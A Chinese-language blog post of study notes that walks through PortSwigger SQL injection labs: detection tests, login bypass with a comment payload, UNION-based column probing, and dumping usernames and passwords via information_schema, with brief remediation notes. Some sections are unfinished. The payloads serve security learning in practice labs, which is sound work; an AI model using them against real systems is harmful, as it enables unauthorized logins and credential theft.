

<!--more-->


## 什么是SQL注入？

[SQL 注入就是借助网站上不健全的 SQL 拼接语句，将攻击者自己的 payload 拼接到原有的 SQL 语句中，使其在服务器上执行恶意 SQL 语句，使得攻击者可以对数据库进行网站运营者预料之外的增、删、改、查操作。](https://mp.weixin.qq.com/s/RTFrPLDiycU0nwZp4baiKQ)

## 如何检测SQL注入漏洞

- 手工SQL注入测试：
    - 单双引号：' " ，查看是否报错
    - 算数运算：比如在id=2的地方输入id=1+1，查看返回数据是否一致，一致说明可能存在注入点
    - 布尔条件：比如 OR 1=1 和 OR 1=2 ，比较两个响应是否有差异，如果存在注入点，前者返回的数据通常是比后者多的
    - 时间延迟：比如 sleep(5)，如果存在注入点，那么携带 payload 的请求，其响应时间应该会比正常的请求慢 5 秒
    - 带外测试（？）：查看你的带外平台是否收到了对应的数据
- 自动化测试：
  - burp scanner：burp suite 自带的扫描器，自动化检测SQL注入漏洞
- SQL注入点：
  - `SELECT`语句：`WHERE`的子句
  - `UPDATE`语句：`UPDATE`的值或者`WHERE`的子句
  - `INSERT`语句：`INSERT`的值
  - `SELECT`语句：表名或列名
  - `SELECT`语句：`ORDER BY`子句

## 检索隐藏数据

- `--`是SQL注释符，可以注释掉后面的内容
- 在使用`OR 1=1`的时候要小心，如果在update或delete语句中使用，可能会导致数据意外丢失

### 🧪实验1：WHERE子句中的SQL注入漏洞允许检索隐藏数据

#### 实验说明

本实验在产品类别筛选器中包含一个SQL注入漏洞。当用户选择一个类别时，应用程序执行如下的SQL查询：

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

任务：执行SQL注入攻击，使应用程序显示一个或多个未发布的产品

#### 解题过程

- 选择一个类别，然后查看URL中的参数
  `filter?category=Accessories`
- 修改URL中的参数，尝试使用`'`和`"`，没报错，说明存在注入点
- 构造payload：`' OR 1=1--`，查看返回数据，发现产品数量变多，完成实验✅
  


## 颠覆应用逻辑

- 对于执行以下SQL来检查凭据，如果查询返回用户的详细信息，则登录成功，否则，登录失败
  ```sql
  SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
  ```
- 在这种情况下，用户可以以任何身份登录，而无需密码。通过`--`注释掉密码的判断，即可登录成功。
- 例子：
  ```sql
  SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
  # 此查询将返回username为administrator的用户的详细信息，而不需要密码
  ```

### 🧪实验2：允许绕过登录的SQL注入漏洞

#### 实验说明

- 一个存在SQL注入漏洞的登录表单
- 任务：绕过登录，以管理员身份登录

#### 解题过程

- 用户名处输入`administrator'--`，密码随意
  
- 登录成功✅

## SQL注入UNION攻击

- 当应用程序容易受到SQL注入攻击时且查询结果在应用程序的响应中返回时，可以使用`UNION`关键字从数据库中的其他表中检索数据。这通常被称为SQL注入UNION攻击。
- `UNION`关键字可以执行一个或多个其他`SELECT`查询，并将结果合并到原始查询的结果中。
- 例子：
  ```sql
  SELECT a,b FROM table1 UNION SELECT c,d FROM table2
  # 此SQL查询返回一个包含两列的结果集，其中包含来自table1的a和b列的数据，以及来自table2的c和d列的数据
  ```
- `UNION`查询有效的两个关键要求：
  - 各个查询必须返回相同数量的列
  - 各个列中的数据类型必须在各个查询之间兼容
- 执行SQL注入UNION攻击必须满足的要求：
  - 从原始查询返回多少列
  - 从原始查询返回的那些列的数据类型适合保存插入查询的结果


## 确定所需的列数

- 在执行SQL注入UNION攻击时，有两种有效的方法可以确定从原始查询返回的列数：
  - 使用一系列`ORDER BY`子句，直到应用程序返回错误
    - 例子：
        ```sql
        ' ORDER BY 1--
        ' ORDER BY 2--
        ' ORDER BY 3--
        etc.

        # 这一系列有效负载修改了原始查询，按照结果集中不同列对结果进行排序
        # `ORDER BY`子句中的列可以由其索引指定，因此不需要知道任何列名
        # 当指定的列索引超出了结果集中的列数时，应用程序通常会返回错误
        ```
    - 应用程序可能在HTTP响应中返回数据库错误，也可能返回一般的错误响应，甚至可能不返回任何错误提示。无论哪种方式，只要能够检测到错误，就可以推断出原始查询返回的列数
  - 使用一系列指定不同数量的空值的`UNION SELECT`语句，直到应用程序不再返回错误
    - 例子：
        ```sql
        ' UNION SELECT NULL--
        ' UNION SELECT NULL,NULL--
        ' UNION SELECT NULL,NULL--
        etc.

        # 如果NULL的数量不匹配，数据库将返回错误
        # NULL可以为每一种常见的数据类型，因此当列数正确时，能最大限度地提高了有效负载成功的机会
        ```
    - 与`ORDER BY`子句一样，应用程序可能在HTTP响应中返回数据库错误，也可能返回一般的错误响应，甚至可能不返回任何错误提示。
    - 但如果 NULL 值的数量同结果集中列的数量匹配，数据库会在结果集中返回额外的列，其中每一列会包含 NULL 值。对 HTTP 响应的影响取决于应用程序的代码实现。如果够幸运的话，你可以在响应中看到其他内容，例如 HTML 表格的额外行。否则，NULL 值可能触发其他错误，例如 NullPointerException。最坏的情况下，响应可能与由不正确的 NULL 数引起的响应没有区别，使得确定列数的此方法无效。

### 🧪实验3：SQL注入UNION攻击，确定查询返回的列数

#### 实验说明

类别删选器中包含一个SQL注入漏洞，查询结果在应用程序的响应中返回，因此可以使用UNION攻击从其他表中检索数据。这种攻击的第一步时确定查询返回的列数。然后再后续的实验中将使用此技术构建完整的攻击。

#### 解题过程

- 使用`UNION SELECT NULL`进行注入，直到不再返回错误：
  


### 数据库特定用法

- 在Oracle上，每个`SELECT`语句必须包含`FROM`关键字并指定一个有效的表。
- Oracle上有一个名为`DUAL`的内置表，因此在Oracle上执行`UNION`攻击时查询可以是：
    ```sql
    ' UNION SELECT NULL FROM DUAL--
    ```
- payload使用双破折号`--`注释掉原始查询的剩余部分。
- 在MySQL上，双破折号后的注释符`--`后必须有一个空格。或者可以使用`#`作为注释符。
- 有关特定数据库的语法，详见[`SQL injection cheat sheet`](https://portswigger.net/web-security/sql-injection/cheat-sheet)


## 查找具有有用数据类型的列

- SQL注入UNION攻击能从注入的查询中检索结果。通常想要检索的数据是字符串形式的。这意味着需要在原始查询结果中找到数据类型为字符串数据或与字符串数据兼容的一个或多个列。
- 确定所需列的数量后，可以探测每一列以测试它是否可以容纳字符串数据，可以提交一系列的`UNION SELECT`的payload，依次将字符串数据插入到每一列中。如果列数据类型与字符串数据不兼容，则注入的查询将导致数据库错误。如果没有发生错误，并且应用程序的响应包含一些附加内容（包括注入的字符串值），则相关列适合于检索字符串数据。
- 例子：
  ```sql
  # 首先确定查询返回的列数是4列，然后探测每一列以测试它是否可以容纳字符串数据
  ' UNION SELECT 'a',NULL,NULL,NULL--
  ' UNION SELECT NULL,'a',NULL,NULL--
  ' UNION SELECT NULL,NULL,'a',NULL--
  ' UNION SELECT NULL,NULL,NULL,'a'--
  ```

### 🧪实验4：SQL注入UNION攻击，查找具有有用数据类型的列

#### 实验说明

- 本实验在产品类别筛选器中包含一个SQL注入漏洞。查询结果在应用程序的响应中返回，因此可以使用UNION攻击从其他表中检索数据。这种攻击的第一步时确定查询返回的列数。然后识别与字符串数据兼容的列。
- 本实验将提供一个随机值，需要使其出现在查询结果中。

#### 解题过程

- 首先使用`SELECT UNION NULL`确定返回的列数，经测试，当有3个`NULL`时,即`?category=Accessories' UNION SELECT NULL,NULL,NULL-- `，不再返回错误,因此返回的列数为3
  
- 然后确认有用的数据类型的列，执行以下payload：
  ```sql
  # 只有第二个成功，因此第二列是字符串类型
  ?category=Accessories' UNION SELECT 'a',NULL,NULL-- 
  ?category=Accessories' UNION SELECT NULL,'eDqVcW',NULL-- 
  ?category=Accessories' UNION SELECT NULL,NULL,'a'-- 
  ```
- 实验要求使用平台提供的随机值，因此将随机值插入到第二列中，即`?category=Accessories' UNION SELECT NULL,'eDqVcW',NULL-- `
  
- 完成实验✅


## 使用SQL注入UNION攻击检索感兴趣的数据

- 当确定了原始查询返回的列数并找到了哪些列可以保存字符串数据时，就可以检索感兴趣的数据了。
- 假设：
  - 原始查询返回两列，这两列都可以保存字符串数据
  - 注入点是`WHERE`子句中一个带引号的字符串
  - 数据库包含一个名为`users`的表，其中包含`username`和`password`列
- 在这个例子中，可以通过执行以下SQL注入UNION攻击来检索`username`和`password`列的数据：
  ```sql
  ' UNION SELECT username, password FROM users--
  ```
- 为了执行这个攻击，需要`users`表及列的名称。如果没有，可以猜测表和列的名称。所有现代数据库都提供了检查数据库结构的方法，能够通过这些方法来确定表和列的名称。


### 🧪实验5：SQL注入UNION攻击，从其他表中检索数据

#### 实验说明

- 本实验在产品类别筛选器中包含一个SQL注入漏洞。查询结果在应用程序的响应中返回，因此可以使用UNION攻击从其他表中检索数据。
- 数据库中包含一个名为`users`的表，其中包含`username`和`password`列。
- 任务：执行SQL注入UNION攻击，检索`username`和`password`列的数据，并使用这些信息以`administrator`的身份登录。

#### 解题过程

- 首先确认列数：
  ``` sql
  ?category=Accessories' UNION SELECT NULL-- 
  ?category=Accessories' UNION SELECT NULL,NULL-- 
  # 成功，说明返回的列数为2
  ```
- 然后确定每一列的类型：
  ```sql
  ?category=Accessories' UNION SELECT 'a',NULL-- 
  ?category=Accessories' UNION SELECT NULL,'a'-- 
  # 两个都成功，说明两列都是字符串类型
  ```
- 使用`?category=Accessories' UNION SELECT username, password FROM users`进行注入，成功获取`username`和`password`列的数据
  
- 使用获得的用户名和密码登录成功
- 完成实验✅

## 在单个列中检索多个值

- 在某些情况下，上一个示例中的查询可能只返回单个列。通过将值连接在一起，可以在此单个列中同时检索多个值。可以包含分隔符以区分组合值。
- 例子：
  ```sql
  ' UNION SELECT username || '~' || password FROM users--
  # 在Oracle数据库中，可以使用`||`连接运算符来连接值
  # 将`username`和`password`连接在一起，并使用`~`作为分隔符，查询的结果包含所有用户名和密码例如：
  # ···
  # administrator~s3cure
  # wiener~peter
  # ···
  ```
- 不同的数据库使用不同的语法来执行字符串连接。详见[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### 🧪实验6：SQL注入UNION攻击，在单个列中检索多个值

#### 实验说明

- 本实验在产品类别筛选器中包含一个SQL注入漏洞。查询结果在应用程序的响应中返回，因此可以使用UNION攻击从其他表中检索数据。
- 数据库包含一个名为`users`的表，其中包含`username`和`password`列。
- 任务：执行SQL注入UNION攻击，检索`username`和`password`列的数据，并使用这些信息以`administrator`的身份登录。

#### 解题过程

- 首先确认列数：
  ``` sql
  ?category=Lifestyle' UNION SELECT NULL-- 
  ?category=Lifestyle' UNION SELECT NULL,NULL-- 
  # 成功，说明返回的列数为2
  ```
- 然后确认每一列的类型：
  ```sql
  ?category=Lifestyle' UNION SELECT 'a',NULL-- 
  # 报错，说明第一列是不是字符串类型
  ?category=Lifestyle' UNION SELECT NULL,'a'-- 
  # 成功，说明第二列是字符串类型
  ```
- 只有一列是字符串，因此需要在单个列中检索`username`和`password`拼接值。
- 猜测这是一个mysql数据库，因此使用`CONCAT`函数进行拼接：
  ```sql
  ?category=Lifestyle' UNION SELECT NULL,CONCAT(username, '~', password) FROM users-- 
  ```
- 查到用户名密码，可以使用administrator登录
  
- 完成实验✅


## 检查SQL注入攻击中的数据库

- 要利用SQL注入漏洞，通常需要查找有关数据库的信息，这包括：
  - 数据库软件的类型和版本
  - 数据库包含的表和列

### 检查数据库的版本和类型

以下是一些用来确定某些常用数据库类型的数据库版本：

| 数据库类型 | 查询|
| --- | --- |
| Microsoft，MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

- 例子：
  - 使用`UNION SELECT @@version,NULL--`来检查数据库的版本
  - 返回的输出结果如下：
    ```
    Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
    Mar 18 2018 09:11:49
    Copyright (c) Microsoft Corporation
    Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
    ```
  - 可以看到数据库的版本是`Microsoft SQL Server 2016`


### 🧪实验7：SQL注入攻击，查询数据库类别和版本（思路没问题，但是不成功，猜测实验环境有问题）

#### 实验说明

- 本实验在产品类别筛选器中包含一个SQL注入漏洞。可以使用UNION攻击从其他表中检索数据。
- 任务：执行SQL注入攻击，确定数据库的类型和版本。

#### 解题过程

- 首先，确定返回的列数：
  ```sql
  ?category=Pets' UNION SELECT NULL-- 
  ?category=Pets' UNION SELECT NULL,NULL--  
  ?category=Pets' UNION SELECT NULL,NULL--  
  # 不成功。。
  ```
  <!--  -->


### 列出数据库的内容

- 大多数数据库类型（Oracle除外），都有一个名为`information_schema`的系统表，其中包含有关数据库的信息。可以使用这个表来列出数据库中的表和列。
- 例：
  - 可以查询`information_schema.tables`表来列出数据库中的表:
    ```sql
    SELECT * FROM information_schema.tables
    ```
  - 结果示例：
    ```
    TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
    =====================================================
    MyDatabase     dbo           Products    BASE TABLE
    MyDatabase     dbo           Users       BASE TABLE
    MyDatabase     dbo           Feedback    BASE TABLE
    ```
  - 可以查询`information_schema.columns`表来列出数据库中的列:
    ```sql
    SELECT * FROM information_schema.columns WHERE table_name = 'users'
    ```
  - 结果示例：
    ```
    TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
    =================================================================
    MyDatabase     dbo           Users       UserId       int
    MyDatabase     dbo           Users       Username     varchar
    MyDatabase     dbo           Users       Password     varchar
    ```


### 🧪实验8：SQL注入攻击，列出非Oracle数据库上的数据库内容

#### 实验说明

- 本实验在产品类别筛选器中包含一个SQL注入漏洞。查询结果将在应用程序的响应中返回，可以使用UNION攻击从其他表中检索数据。
- 应用程序具有登录功能，数据库包含一个保存用户名和密码的表。
- 任务：执行SQL注入攻击，确定表的名称和列的名称，查询所有用户的用户名和密码，以`administrator`的身份登录。


#### 解题过程

- 首先确定原始查询返回的列数：
  ```sql
  ?category=Gifts' UNION SELECT NULL,NULL-- 
  # 返回正常结果，所以返回的列数为2
  ```
- 然后确定每一列的类型：
  ```sql
  ?category=Gifts' UNION SELECT 'a',NULL-- 
  ?category=Gifts' UNION SELECT NULL,'a'-- 
  # 两个都成功，说明两列都是字符串类型
  ```
- 查询数据库中的表：
  ```sql
  ?category=Gifts' UNION SELECT table_name, NULL FROM information_schema.tables--
  ```
  
- 发现一个名为`users_kdzjph`的表，猜测是目标表，尝试查询表中的列：
  ```sql
  ?category=Gifts' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'pg_user_mappings'--  
  ?category=Gifts' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'users_kdzjph'--  
  ```
  
- 查询到了`password_ifndxh`和`username_aeoisd`列，查询所有用户的用户名和密码：
  ```sql
  ?category=Gifts' UNION SELECT username_aeoisd,password_ifndxh FROM users_kdzjph--  
  ```
  
- 使用获得的用户名和密码登录
  
- 完成实验✅

## SQL盲注

x


## 参考资料

- [PortSwigger之SQL注入实验室笔记 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/287481.html)
- [SQL injection - PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data)
- [一篇文章学会手工注入（万字介绍SQL注入）](https://mp.weixin.qq.com/s/RTFrPLDiycU0nwZp4baiKQ)
- [渗透测试---手把手教你SQL注入(4)--DNSLOG外带注入](https://blog.csdn.net/weixin_52796034/article/details/133746733)
- [SQL注入——二次注入的原理 利用以及防御](https://blog.csdn.net/kongzhian/article/details/110001836)


<!-- ## SQL注入学习

### 简介

[SQL 注入就是借助网站上不健全的 SQL 拼接语句，将攻击者自己的 payload 拼接到原有的 SQL 语句中，使其在服务器上执行恶意 SQL 语句，使得攻击者可以对数据库进行网站运营者预料之外的增、删、改、查操作。](https://mp.weixin.qq.com/s/RTFrPLDiycU0nwZp4baiKQ)


### 原理

[简单来说，造成SQL注入的原因就是由于应用程序在构造SQL查询语句时未正确过滤或转义用户输入的数据、或未使用预编译等方法，造成了攻击者构造的恶意语句被应用程序执行。](https://mp.weixin.qq.com/s/RTFrPLDiycU0nwZp4baiKQ)


### 危害

1. 脱库
2. 查询隐藏数据
3. 新增管理账户
4. getshell，获取服务器权限

> 脱库:本来是数据库领域的专用语，指从数据库中导出数据。而现在它被用来指网站遭到入侵后，黑客窃取数据库的行为。也就是网站被入侵以后数据库信息泄露了。


### 测试方法（简单）

| 测试方法 | 说明 |
| --- | --- |
| 单双引号 | ' " ，查看是否报错 |
| 算数运算 | 比如在id=2的地方输入id=1+1，查看返回数据是否一致，一致说明可能存在注入点 |
| 布尔条件 | 比如 OR 1=1 和 OR 1=2 ，比较两个响应是否有差异，如果存在注入点，前者返回的数据通常是比后者多的 |
| 时间延迟 | 比如 sleep(5)，如果存在注入点，那么携带 payload 的请求，其响应时间应该会比正常的请求慢 5 秒 |
| 带外测试（？） | 查看你的带外平台是否收到了对应的数据 |


### 修复方法

- 使用参数化查询或预编译语句
- 输入验证和过滤
- 最小化特权
- 使用ORM框架
- 避免动态拼接SQL语句
- 错误处理和日志记录


### 分类

- 基于攻击原理进行分类
| 分类 | 说明 |
| --- | --- |
| 报错注入 | 页面会返回报错信息，或把SQL语句直接返回在页面中。常用的函数有：ExtractValue、UpdateXml、concat |
| 联合注入 | 可以执行`UNICON SELECT`语句 |
| 延时注入 | 又叫时间型盲注，通过执行如 sleep(5) 之类的函数，使得存在漏洞的响应会明显慢于正常响应 |
| 布尔盲注 | 布尔盲注不会直接返回查询结果，而是通过应用程序的响应或行为差异来推断查询结果的真假 |
| 堆叠注入 | 简单地说就是使用`;`分号分隔两个SQL语句，在应用程序执行完原有语句之后，再执行我们的 payload |
| 二次注入 | [SQL注入——二次注入的原理 利用以及防御](https://blog.csdn.net/kongzhian/article/details/110001836) |
- 基于数据类型进行分类
  - 数字型
  - 字符型
  - 搜索型
- 基于提交方式进行分类
  - GET
  - POST
  - Cookie
  - Header

### 参考资料

- [一篇文章学会手工注入（万字介绍SQL注入）](https://mp.weixin.qq.com/s/RTFrPLDiycU0nwZp4baiKQ)
- [渗透测试---手把手教你SQL注入(4)--DNSLOG外带注入](https://blog.csdn.net/weixin_52796034/article/details/133746733)
- [SQL注入——二次注入的原理 利用以及防御](https://blog.csdn.net/kongzhian/article/details/110001836) -->

